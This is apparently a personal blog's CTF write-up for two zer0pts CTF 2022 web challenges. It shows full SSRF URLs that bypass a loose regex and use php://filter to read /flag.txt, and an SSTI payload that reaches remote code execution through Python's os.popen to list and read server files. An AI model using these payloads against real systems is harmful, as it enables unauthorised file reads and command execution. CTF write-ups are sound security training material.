 ```yaml
---
layout: post
title: zer0pts CTF 2022 Writeup
published: true
categories: [Web]
excerpt: I debated doing a writeup for this since I only worked on the easiest web challenge with my team, but since this blog needed an update I am publishing it. I solved miniblog++ after the CTF as a teammate solved it during it.
---
```


I debated doing a writeup for this since I only worked on the easiest web challenge with my team, but since this blog needed an update I am publishing it. I solved miniblog++ after the CTF as a teammate solved it during it.

---

## Web

---

# GitFile Explorer

#### Category: Web | 77 points

<details>
  <summary>Challenge Description</summary>
  
  Read /flag.txt on the server.     
	http://gitfile.ctf.zer0pts.com:8001/
</details>

The source code was given for this challenge, so no guessing was required.

First, I tried to understand the application by clicking on the Download button on the Challenge URL, which returns the following URL: [http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md](http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md)


Looking at the source code, we see that the URL is generated as follows:

```php
$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
```


It is immediately obvious that the regex is very loose. Since the regex only checks for presence of `github` or `gitlab` or `bitbucket` in the URL, the full hostname is not actually needed and we just need to include it somewhere in our `service` parameter. 

An SSRF can be achieved by putting an `@` after the hostname to redirect to our chosen domain, such as [http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=.&repo=.&branch=.&file=index.php](http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=.&repo=.&branch=.&file=index.php) would return the contents of `index.php` of the site.

From here I tried path traversal by replacing the `index.php` with `../../../flag.txt` only to be met with the following error:

```markdown
: file_get_contents(http://...@gitfile.ctf.zer0pts.com:8001/./././../../../flag.txt): Failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request in

**/var/www/html/index.php**

on line **30**
```

I got the same error when trying [http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=..&repo=..&branch=..&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http%3A%2F%2Fraw.githubusercontent.@gitfile.ctf.zer0pts.com:8001&owner=..&repo=..&branch=..&file=flag.txt) as well, which should have sent the same request given the code:

```php
$url = craft_url($service, $owner, $repo, $branch, $file);
```

It was here a few of us got stuck for a while, and we started looking for other bypasses.

The following regex bypasses are viable:
- using the newline character `%0A`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://gitfile.ctf.zer0pts.com:8001/%0Ahttp://github&owner=.&repo=.&branch=.&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http://gitfile.ctf.zer0pts.com:8001/%0Ahttp://github&owner=.&repo=.&branch=.&file=flag.txt)
- using the URL-encoded fragment identifier `#`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost%23github&owner=.&repo=.&branch=.&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost%23github&owner=.&repo=.&branch=.&file=flag.txt)
- using the query paramter `?=`: [http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost/flag.txt%3Fa%3Dgithub&owner=.&repo=.&branch=.&file=a](http://gitfile.ctf.zer0pts.com:8001/?service=http://localhost/flag.txt%3Fa%3Dgithub&owner=.&repo=.&branch=.&file=a)

We also tried non-HTTP protocols such as:
- File selector `file://`: [http://gitfile.ctf.zer0pts.com:8001/?service=file://flag.txt%0Ahttp://github&owner=.&repo=.&branch=.&file=index.php](http://gitfile.ctf.zer0pts.com:8001/?service=file://flag.txt%0Ahttp://github&owner=.&repo=.&branch=.&file=index.php) which returns `Remote host file access not supported`, meaning that the `file://` wouldn't work.
- PHP Filter `php://filter/convert.base64-encode/resource=`: [http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=flag.txt%0Ahttp://github&owner=..&repo=..&branch=..&file=.](http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=flag.txt%0Ahttp://github&owner=..&repo=..&branch=..&file=.), which returns `Read of 8192 bytes failed with errno=21 Is a directory in /var/www/html/index.php on line 30`, which meant that `resource` was somehow reading a directory instead of the file we specified. 

And thus to no avail.

It was at this point Ocean came in with the brilliant idea of separating the base resource directory as a `/` and specifying the file in the param instead: [http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=/%0ahttp://github&owner=..&repo=..&branch=..&file=flag.txt](http://gitfile.ctf.zer0pts.com:8001/?service=php://filter/convert.base64-encode/resource=/%0ahttp://github&owner=..&repo=..&branch=..&file=flag.txt), which finally led us to the flag.

The content returned was in base64 due to our filter: `emVyMHB0c3tmb28vYmFyLy4uLy4uLy4uLy4uLy4uL2RpcmVjdG9yeS90cmF2ZXJzYWx9Cg==`

Which when decoded, it gives the flag!

![Flag](../assets/zer0pts-ctf-2022/gitfile-flag.png)

<details>
  <summary>FLAG</summary>
  
   zer0pts{foo/bar/../../../../../directory/traversal}
</details>


---

# Miniblog++

#### Category: Web | 113 points

<details>
  <summary>Challenge Description</summary>
  
  Backup is important!
	http://miniblog.ctf.zer0pts.com:8008/
</details>

Credits to @Creastery who solved this during the CTF. I didn't look at it until after the CTF ended as it was already solved.

Upon a cursory skim of the source code, I saw lots of `{{title}}` and `{{author}}` which hints towards SSTI.

Logging into the site automatically creates an account for your specified user, so I tried creating an account with username `7*7` in hopes of it being executed when `{{author}}` is generated, however it did not work. `{{title}}` also does not seem to execute my payload.

Next I tried to enter `{{7*7}}` in the content body instead, but was prevented by some server side rule that says `You can only use "{{title}}", "{{author}}", and "{{date}}`. 

Thus, I checked the source code for the logic:

```python
if len(content) == 0     : return 'HTML is empty', None
        if len(content) > 1024*64: return 'HTML is too long', None
        if '{%' in content:
            return 'The pattern "{%" is forbidden', None
        for brace in re.findall(r"{{.*?}}", content):
            if not re.match(r"{{!?[a-zA-Z0-9_]+}}", brace):
                return 'You can only use "{{title}}", "{{author}}", and "{{date}}"', None
```

As we can see, apart from the `{%` forbidden pattern, the regex also matches any alphanumeric character and underscores between the braces and rejects them if they don't match any of the 3 tags.

However, newlines are not prevented and thus we can insert this into the body:
```html
<!DOCTYPE html>
<html>
{{
7*7
}}
  <head>
    <meta charset="UTF-8">
    <title>{{title}}</title>
  </head>
  <body>
    <h1>{{author}}'s Website</h1>
    <p>This is a sample page by {{author}} published on {{date}}.</p>
  </body>
</html>

```

Which leads to the equation being executed server side, and we got the SSTI!

![Answer to Life](../assets/zer0pts-ctf-2022/miniblog1-42.png)

Next, I changed the `7*7` payload to a more useful payload for RCE:
`request.application.__globals__.__builtins__.__import__('os').popen('ls -alR /').read()`

![Remote Code Execution](../assets/zer0pts-ctf-2022/rce.png)

I listed all the files on the server and went to look for the flag. 

Eventually I found it in `flag-wowRCEwow.txt`. My final payload was:

```html
<!DOCTYPE html>
<html>
{{
request.application.__globals__.__builtins__.__import__('os').popen('cat /flag-wowRCEwow.txt').read()
}}
  <head>
    <meta charset="UTF-8">
    <title>{{title}}</title>
  </head>
  <body>
    <h1>{{author}}'s Website</h1>
    <p>This is a sample page by {{author}} published on {{date}}.</p>
  </body>
</html>

```

![Flag](../assets/zer0pts-ctf-2022/miniblog1-flag.png)

<details>
  <summary>FLAG</summary>
  
   zer0pts{You_obtained_a_Bachelor_of_ZIP}
    
</details>


---

